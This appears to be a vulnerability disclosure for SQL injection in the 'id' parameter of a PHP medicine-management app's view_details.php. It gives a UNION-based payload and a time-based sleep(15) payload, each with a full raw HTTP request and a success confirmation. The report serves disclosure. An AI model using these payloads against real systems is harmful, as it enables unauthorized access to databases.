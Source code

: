 BUG_Author:godgua

Vulnerability File: /php-mts/app/medicines/view_details.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=-1' union all select null,null,null,concat(0x51525354,0x41424344,0x61626364),null,null-- -

```
GET /php-mts/app/medicines/view_details.php?id=-1%27%20union%20all%20select%20null,null,null,concat(0x51525354,0x41424344,0x61626364),null,null--%20- HTTP/1.1
Host: 192.168.0.100
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=t194o00fbqgbautftistta6ap2
Connection: close
```

union query success

![image](https://github.com/GodGua/bug_report/blob/main/sql1.png)

Payload2:id=1' and (select 2 from (select(sleep(15)))a) AND 'c'='c

```
GET /php-mts/app/medicines/view_details.php?id=1%27%20and%20(select%202%20from%20(select(sleep(15)))a)%20AND%20%27c%27=%27c HTTP/1.1
Host: 192.168.0.100
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=t194o00fbqgbautftistta6ap2
Connection: close
```

The server's response time is 15 seconds

![image](https://github.com/GodGua/bug_report/blob/main/sql2.png)
